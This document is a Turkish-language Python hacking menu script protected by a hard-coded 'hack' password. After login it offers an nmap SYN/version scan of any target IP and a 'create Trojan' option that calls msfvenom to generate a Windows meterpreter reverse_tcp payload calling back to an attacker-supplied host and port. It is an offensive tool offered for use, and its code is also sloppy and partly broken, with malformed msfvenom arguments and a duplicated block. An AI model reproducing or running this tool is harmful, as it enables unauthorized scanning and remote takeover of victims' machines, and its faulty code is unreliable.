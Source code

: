# SWAP-MENU
 kadi= "DeepSama" sifre = "hack" kkadi = "DeepSoon" ssifre = "hack"  ksoru = input("Kayıtlı Kullanıcı Adını Giriniz -DPS ---->  ") ksifre = input("Kayıtlı Şifreyi Giriniz -DPS ---->  ")  if (ksoru==kadi) &amp; (ksifre==sifre):     print("Sisteme Giris Basarılı")     time.sleep(1)     os.system("figlet CONFRIME!!")     time.sleep(1)     os.system("clear")     os.system("figlet DPS")     print("3 Saniye Bekleyin...")     print()     print("3")     print("")     time.sleep(1)     print("2")     print("")     time.sleep(1)     print("1")     print("")     time.sleep(1)     os.system("Sisteme Geçiş Yapılıyor....")     os.system("clear")     os.system("figlet WELCOME")     print(""" 1-Port Taraması 2-Trojan OLustur """)     islem = input("İslem Seciniz ---->  ")     if (islem=="1"):        hedefip = input("Hedef İP Giriniz ---->  ")        os.system("sudo nmap -sS -sV " + hedefip)     if (islem=="2"):        hackHOST = input("Local İp Tanımlayınız ---->  ")        hackPORT = input("Local Port Tanımlayınız ---->  ")        ismin = input("Trojan İsmi Tanımlayınız(Uzantıyı Ekleyerek) ---->  ")        print("")        print("        --> Bu Islem 30-35 Saniye Surebilir &lt;--")        os.system("msfvenom -p windows/meterpreter/reverse_tcp LHOST"+ hackHOST+" LPORT"+ hackPORT+" -o "+ismin)  if (ksoru==kkadi) &amp; (ksifre==ssifre):     print("Sisteme Giris Basarılı")     time.sleep(1)     os.system("figlet CONFRIME!!")     time.sleep(1)     os.system("clear")     os.system("figlet DPS")     print("3 Saniye Bekleyin...")     print()     print("3")     print("")     time.sleep(1)     print("2")     print("")     time.sleep(1)     print("1")     print("")     time.sleep(1)     os.system("Sisteme Geçiş Yapılıyor....")     os.system("clear")     os.system("figlet WELCOME")     print(""" 1-Port Taraması 2-Trojan OLustur """)     islem = input("İslem Seciniz ---->  ")     if (islem=="1"):        hedefip = input("Hedef İP Giriniz ---->  ")        os.system("sudo nmap -sS -sV " + hedefip)     if (islem=="2"):        hackHOST = input("Local İp Tanımlayınız ---->  ")        hackPORT = input("Local Port Tanımlayınız ---->  ")        ismin = input("Trojan İsmi Tanımlayınız(Uzantıyı Ekleyerek) ---->  ")        print("")        print("        --> Bu Islem 30-35 Saniye Surebilir &lt;--")        os.system("msfvenom -p windows/meterpreter/reverse_tcp LHOST"+ hackHOST+" LPORT"+ hackPORT+" -o "+ismin) else:     os.system("clear")     time.sleep(1)     os.system("figlet ERROR!!")     
